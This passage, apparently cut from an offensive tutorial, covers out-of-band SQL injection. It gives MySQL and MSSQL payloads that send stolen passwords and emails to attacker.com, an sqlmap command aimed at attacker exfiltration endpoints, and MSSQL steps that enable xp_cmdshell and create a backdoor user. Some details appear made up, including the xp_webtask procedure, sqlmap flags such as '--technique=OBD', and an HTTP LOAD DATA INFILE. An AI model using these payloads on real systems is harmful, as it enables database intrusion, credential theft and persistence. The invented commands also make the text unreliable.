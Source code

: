 **Steps and Example**:  
1. **Attacker Setup**:  
   - Host a listener (e.g., `python -m http.server 80`) to log incoming requests.  

2. **Payload Injection**:  
   - **MySQL**:  
     ```sql  
     LOAD DATA INFILE 'http://attacker.com/log?data='||(SELECT password FROM users LIMIT 1)||'';  
     ```  
     This generates an HTTP request to `http://attacker.com/log?data=SecurePass123`, exposing the password.  
   - **MSSQL**:  
     ```sql  
     EXEC master..xp_webtask 'http://attacker.com/log?data=' + (SELECT TOP 1 email FROM users);  
     ```  

3. **Data Extraction**:  
   The attacker reviews server logs to extract parameters like `data=SecurePass123`.  

**Prerequisites**:  
- The database must allow outbound HTTP requests (e.g., `LOAD_FILE()` in MySQL with URL support).  

---

#### **3. Tool Integration with SQLMap**  
SQLMap automates OOB exploitation using the `--second-URL` or `--second-DNS` flags:  

| **Option**          | **Description**                                                                 |  
|----------------------|---------------------------------------------------------------------------------|  
| `--technique=OBD`    | Enables OOB detection (DNS and HTTP).                                           |  
| `--second-URL`       | Specifies the attacker’s HTTP endpoint for data capture.                        |  
| `--second-DNS`       | Specifies the attacker’s domain for DNS-based exfiltration.                     |  

**Example Command**:  
```bash  
sqlmap -u "http://target.com/vulnerable-page" \  
       --batch --level 5 --risk 3 \  
       --technique=OBD \  
       --second-URL=http://attacker.com/capture.php \  
       --second-DNS=exfil.attacker.com  
```  

---

#### **4. Privilege Escalation and Persistence**  
After gaining initial access via OOB, attackers often escalate privileges or establish persistence:  

- **Enable `xp_cmdshell` (MSSQL)**:  
  ```sql  
  EXEC sp_configure 'show advanced options', 1; RECONFIGURE;  
  EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;  
  EXEC xp_cmdshell 'net user hacker Pass123$ /add';  
  ```  
